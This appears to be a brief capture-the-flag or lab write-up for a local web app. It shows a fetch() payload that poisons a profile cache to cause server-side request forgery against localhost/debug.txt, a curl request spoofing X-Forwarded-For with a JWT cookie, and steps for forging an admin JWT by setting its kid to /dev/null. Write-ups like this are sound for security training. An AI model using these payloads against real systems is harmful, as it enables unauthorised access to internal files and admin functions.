 # writeup: 

## Cache poisoning -> SSRF 
1. View source code of home page and notice that debug.txt is mentioned. 
2. navigate api docs and observe a request to cache the profile picture, cache debug.txt instead of profile picture from console. 

fetch('/update-profile-cache', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({
    ip: '127.0.0.1',
    url: 'localhost/debug.txt'     //ssrf
  })
}).then(r => r.json()).then(console.log)


2. Now make request to /get-profile-picture endpoint with your JWT and x-forwarded-for: 127.0.0.1 header

curl -H "X-Forwarded-For: 127.0.0.1" -H "Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJyb2xlIjoidXNlciIsImlhdCI6MTc0NzgwMzgwNywiZXhwIjoxNzQ3ODA3NDA3fQ.MYUIX6GNwlLHPJw5VuNwbzjeK3uX0NqSqSBBRnI27Ys" http://localhost:3000/get-profile-pic

## JWT KID injection / none key bypass

1. set role to the required role.
2. set kid to /dev/null				// null 
3. Generate JWT and make reqest to /admin
4. Visit the identified admin endpoint and visit the page. 

